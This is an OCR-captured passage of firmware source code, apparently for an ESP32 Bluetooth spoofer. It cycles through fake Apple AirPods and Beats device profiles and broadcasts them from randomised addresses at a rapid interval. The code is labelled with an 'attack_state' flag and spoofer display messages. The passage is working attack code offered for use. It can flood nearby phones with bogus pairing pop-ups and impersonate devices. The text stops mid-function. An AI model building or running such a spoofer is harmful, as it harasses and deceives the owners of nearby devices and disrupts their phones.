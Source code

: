 void Betas_Fit_Pro()         { device_choice = 0; device_index = 15; attack_state = 1; }
void Beats_Studio_Buds_Plus(){ device_choice = 0; device_index = 16; attack_state = 1; }

void setAdvertisingData() {
  switch (deviceType) {
    case 1: Airpods(); break;
    case 2: Airpods_pro(); break;
    case 3: Airpods_Max(); break;
    case 4: Airpods_Gen_2(); break;
    case 5: Airpods_Gen_3(); break;
    case 6: Airpods_Pro_Gen_2(); break;
    case 7: Power_Beats(); break;
    case 8: Power_Beats_Pro(); break;
    case 9: Beats_Solo_Pro(); break;
    case 10: Beats_Studio_Buds(); break;
    case 11: Beats_Flex(); break;
    case 12: Beats_X(); break;
    case 13: Beats_Solo_3(); break;
    case 14: Beats_Studio_3(); break;
    case 15: Beats_Studio_Pro(); break;
    case 16: Betas_Fit_Pro(); break;
    case 17: Beats_Studio_Buds_Plus(); break;
    default: Airpods(); break;
  }
  updateSpoofer();
}

void toggleAdvertising() {
  isAdvertising = !isAdvertising;

  if (!isAdvertising) {
    pAdvertising->stop();
    Serial.println("Advertising stopped.");
    Printspoofer("[!] Advertising stopped", TFT_YELLOW, true);
    updateSpoofer();
  } else {
    if (attack_state == 1) {
      esp_bd_addr_t dummy_addr = {0x00, 0x00, 0x00, 0x00, 0x00, 0x00};
      for (int i = 0; i < 6; i++) {
        dummy_addr[i] = random(256);
        if (i == 0) dummy_addr[i] |= 0xF0;
      }

      BLEAdvertisementData oAdvertisementData = getAdvertismentData();
      pAdvertising->setDeviceAddress(dummy_addr, BLE_ADDR_TYPE_RANDOM);
      pAdvertising->addServiceUUID(devices_uuid);
      pAdvertising->setAdvertisementData(oAdvertisementData);
      pAdvertising->setMinInterval(0x20);
      pAdvertising->setMaxInterval(0x20);
      pAdvertising->setMinPreferred(0x20);
      pAdvertising->setMaxPreferred(0x20);
      pAdvertising->start();
      delay(delayMillisecond);

